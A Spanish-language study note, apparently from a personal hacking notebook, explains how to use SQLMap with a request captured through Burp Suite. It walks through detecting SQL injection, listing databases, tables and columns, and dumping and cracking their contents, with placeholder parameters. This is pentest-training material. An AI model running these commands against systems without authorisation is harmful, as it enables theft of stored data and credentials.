 ----------------------
- Tags: #herramientas #sql #hacking #exploiting #automático #no_válido
--------------------
La herramienta **SQLMap** es utilizada como un tipo de explotación automática hacia un servicio que podría ser vulnerable a [[SQL Injection]].

Para hacer uso de la herramienta, una vez en la página web en el lugar en el que pensemos que hay una vulnerabilidad a [[SQL Injection]], rellenamos el campo a enviar e interceptamos la petición con [[Burpsuite]]. Una vez interceptada, la copiamos a un archivo, por ejemplo, request.req. 

Una vez tengamos dicho archivo, podemos ejecutar el siguiente comando para ver si muestra algún tipo de vulnerabilidad:

```bash 
sqlmap -r request.req -p <parámetro_inyectable> --batch
```

Donde cada parámetro significa lo siguiente:

- ```-r```: Indica cuál es la petición (mencionada anteriormente)
- ```-p```: Indica cuál es el parámetro de la solicitud que creemos que puede ser vulnerable
- ```--batch```: Indica que si encuentra a qué base de datos nos estamos enfrentando, no pruebe vulnerabilidades de otros tipos de bases de datos


Una vez sepamos que la página web es vulnerable, podemos listar las bases de datos existentes ejecutando el siguiente comando:

```bash
sqlmap -r request.req -p <parámetro_inyectable> --batch --dbs
```

Donde el nuevo parámetro significa:

- ```-dbs```: Indica que liste las bases de datos existentes


Una vez sepamos las bases de datos existentes, podemos listar las tablas de alguna en específico de la siguiente manera:

```bash
sqlmap -r request.req -p <parámetro_inyectable> --batch -D <db_name> --tables
```

Donde los nuevos parámetros significan:

- ```-D```: Indica qué base de datos se va a utilizar
- ```--tables```: Indica que queremos que nos muestre las tablas existentes


Una vez sepamos las tablas que existen en una base de datos encontrada, podemos listar las columnas de la siguiente manera:

```bash
sqlmap -r request.req -p <parámetro_inyectable> --batch -D <db_name> -T <table_name> --columns
```

Donde los nuevos parámetros significan:

- ```-T```: Indica qué tabla se va a utilizar
- ```--columns```: Indica que queremos que nos muestre las columnas existentes


Una vez sepamos las columnas existentes en una tabla, podemos dumpear el contenido de las mismas con el siguiente comando:

```bash
sqlmap -r request.req -p <parámetro_inyectable> --batch -D <db_name> -T <table_name> -C <column_name> --dump
```

Donde los nuevos parámetros significan:

- ```-C```: Indica qué columna se va a utilizar
- ```--dump```: Indicamos que queremos dumpear el contenido seleccionado, además si se estuvieran mostrando contraseñas cifradas, trataría de descifrarlas


Si queremos enviar una solicitud al proxy (comúnmente lo haremos con [[Burpsuite]]), podemos ejecutar el siguiente comando:

```bash
sqlmap -r request.req -p <parámetro_inyectable> --batch --proxy <URL>
```

Donde el nuevo parámetro significa:

- ```--proxy```: Indicamos la url de donde queremos establecer el proxy